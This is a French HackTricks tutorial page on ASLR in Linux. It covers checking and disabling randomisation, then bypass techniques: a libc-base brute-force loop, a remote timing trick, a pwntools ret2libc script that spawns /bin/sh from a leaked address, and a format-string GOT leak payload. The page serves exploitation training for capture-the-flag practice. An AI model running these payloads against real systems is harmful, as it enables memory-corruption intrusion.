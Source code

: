 # ASLR

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Informations de base

**La randomisation de l'espace d'adressage (ASLR)** est une technique de sécurité utilisée dans les systèmes d'exploitation pour **randomiser les adresses mémoire** utilisées par les processus système et d'application. Ce faisant, il devient considérablement plus difficile pour un attaquant de prédire l'emplacement de processus et de données spécifiques, tels que la pile, le tas et les bibliothèques, réduisant ainsi certains types d'exploits, en particulier les débordements de tampon.

### **Vérification du statut de l'ASLR**

Pour **vérifier** le statut de l'ASLR sur un système Linux, vous pouvez lire la valeur du fichier `/proc/sys/kernel/randomize_va_space`. La valeur stockée dans ce fichier détermine le type d'ASLR appliqué :

* **0** : Aucune randomisation. Tout est statique.
* **1** : Randomisation conservatrice. Les bibliothèques partagées, la pile, mmap(), la page VDSO sont randomisées.
* **2** : Randomisation complète. En plus des éléments randomisés par la randomisation conservatrice, la mémoire gérée via `brk()` est randomisée.

Vous pouvez vérifier le statut de l'ASLR avec la commande suivante :
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Désactiver ASLR**

Pour **désactiver** ASLR, vous définissez la valeur de `/proc/sys/kernel/randomize_va_space` sur **0**. Désactiver ASLR n'est généralement pas recommandé en dehors des scénarios de test ou de débogage. Voici comment vous pouvez le désactiver :
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Vous pouvez également désactiver l'ASLR pour une exécution avec :
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Activation de l'ASLR**

Pour **activer** l'ASLR, vous pouvez écrire une valeur de **2** dans le fichier `/proc/sys/kernel/randomize_va_space`. Cela nécessite généralement des privilèges root. L'activation d'une randomisation complète peut être effectuée avec la commande suivante :
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Persistance à travers les redémarrages**

Les modifications effectuées avec les commandes `echo` sont temporaires et seront réinitialisées lors du redémarrage. Pour rendre le changement persistant, vous devez éditer le fichier `/etc/sysctl.conf` et ajouter ou modifier la ligne suivante :
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Après avoir modifié `/etc/sysctl.conf`, appliquez les changements avec :
```bash
sudo sysctl -p
```
Cela garantira que vos paramètres ASLR restent inchangés après les redémarrages.

## **Contournements**

### Force brute 32 bits

PaX divise l'espace d'adressage du processus en **3 groupes** :

* **Code et données** (initialisées et non initialisées) : `.text`, `.data`, et `.bss` —> **16 bits** d'entropie dans la variable `delta_exec`. Cette variable est initialisée de manière aléatoire à chaque processus et ajoutée aux adresses initiales.
* **Mémoire** allouée par `mmap()` et **bibliothèques partagées** —> **16 bits**, nommé `delta_mmap`.
* **La pile** —> **24 bits**, appelé `delta_stack`. Cependant, il utilise effectivement **11 bits** (du 10e au 20e octet inclus), alignés sur **16 octets** —> Cela donne **524 288 adresses de pile réelles possibles**.

Les données précédentes sont pour les systèmes 32 bits et l'entropie finale réduite permet de contourner l'ASLR en réessayant l'exécution jusqu'à ce que l'exploit réussisse.

#### Idées de force brute :

* Si l'exploit est local, vous pouvez essayer de forcer de manière brute l'adresse de base de libc (utile pour les systèmes 32 bits) :
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Lors d'une attaque sur un serveur distant, vous pourriez essayer de **forcer l'adresse de la fonction `usleep` de la `libc`**, en passant 10 comme argument. Si à un moment le **serveur met 10 secondes supplémentaires pour répondre**, vous avez trouvé l'adresse de cette fonction.

{% hint style="success" %}
Sur les systèmes 64 bits, l'entropie est beaucoup plus élevée et cela n'est pas possible.
{% endhint %}

### Avoir une fuite

* **Le défi consiste à avoir une fuite**

Si vous disposez d'une fuite (dans des défis CTF faciles), vous pouvez calculer des décalages à partir de celle-ci (en supposant par exemple que vous connaissez la version exacte de la libc utilisée dans le système que vous exploitez). Cet exemple d'exploitation est extrait de l'[**exemple d'ici**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (consultez cette page pour plus de détails):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

En exploitant un dépassement de tampon, il serait possible d'exploiter un **ret2plt** pour exfiltrer une adresse d'une fonction de la libc. Vérifiez :

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Lecture arbitraire de chaînes de format**

Tout comme dans ret2plt, si vous avez une lecture arbitraire via une vulnérabilité de chaînes de format, il est possible d'exfiltrer l'adresse d'une **fonction libc** à partir du GOT. L'exemple suivant [**est tiré d'ici**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Vous pouvez trouver plus d'informations sur la lecture arbitraire de chaînes de format dans:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret

Essayez de contourner l'ASLR en abusant des adresses à l'intérieur de la pile:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF** Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
